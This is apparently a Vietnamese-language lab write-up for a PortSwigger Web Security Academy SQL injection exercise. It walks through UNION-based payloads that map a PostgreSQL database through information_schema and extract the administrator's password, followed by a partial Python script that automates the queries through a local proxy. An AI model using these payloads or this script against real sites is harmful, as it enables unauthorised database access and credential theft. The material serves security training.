 ### SQL Injection - Lab #9 SQL injection attack, listing the database contents on non Oracle databases
- https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
1. Xác định số cột của database: ' order by 1--
- https://0a2200c8030727a2c633e1d0005c006d.web-security-academy.net/filter?category=Accessories%27%20order%20by%201--
- Tăng số lần lượt từ 1 cho đến khi web trả về lỗi. Từ đó xác định được số cột trong database.(2 cột)
2. Xác định kiểu dữ liệu của cột.
- ' UNION select 'a',NULL-- 
- ' UNION select 'a','a'--
- -> cả hai cột dữ liệu là kiểu text.
3. Xác định phiên bản của database.
- ' UNION select version(),NULL--       =>PostgreSQL
4. Lấy được danh sách tên cột của database.
- ' UNION select table_name, NULL FROM  information_schema.tables--
- (lên mạng gõ information_schema.tables sau đó tìm ra được table_name)  
5. In ra tên của bảng.
- ' UNION select column_name, NULL FROM  information_schema.columns WHERE table_name = 'users_wahylc'--
- (users_wahylc tùy thuộc vào từng bài).
- password_qlrxps     username_msmtmu
6. In ra username và password.
- ' UNION select username_msmtmu, password_qlrxps from users_wahylc--
- administrator   c05fnpuhr9l97equdrn2
```
 import requests 
 import urllib3
 from bs4 import BeautifulSoup
 import re  
 import sys 
 import warnings
 warnings.filterwarnings("ignore", category=DeprecationWarning) 
 urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 proxies = {'http': 'http://127.0.0.1:8080','https' : 'https://127.0.0.1:8080'}
 def perform_request(url,sql_payload):
     path = '/filter?category=Accessories'
     r = requests.get(url + path + sql_payload,verify = False,proxies = proxies)
     return r.text 
 def sqli_users_table(url):
     sql_payload = "' UNION select table_name, NULL FROM  information_schema.tables--"
    res = perform_request(url,sql_payload)
    soup  = BeautifulSoup(res,'html.parser')
    users_table = soup.find(text = re.compile(".*users.*"))
    if users_table: 
        return users_table
    else: 
        return False 
def sqli_users_columns(url,users_table): 
    sql_payload = "' UNION select column_name, NULL FROM  information_schema.columns WHERE table_name = '%s'--" %users_table
    res = perform_request(url,sql_payload)
    soup = BeautifulSoup(res,'html.parser')
    username_column = soup.find(text = re.compile('.*username.*'))
    password_column = soup.find(text = re.compile('.*password.*'))
    return username_column,password_column
 def sqli_administrator_cred(url,users_table,username_column,password_column):
    sql_payload = "' UNION select %s, %s from %s--" % (username_column,password_column,users_table)
    res = perform_request(url,sql_payload)
    soup = BeautifulSoup(res,'html.parser')
    admin_password = soup.body.find(text = "administrator").parent.findNext('td').contents[0] 
    return admin_password
```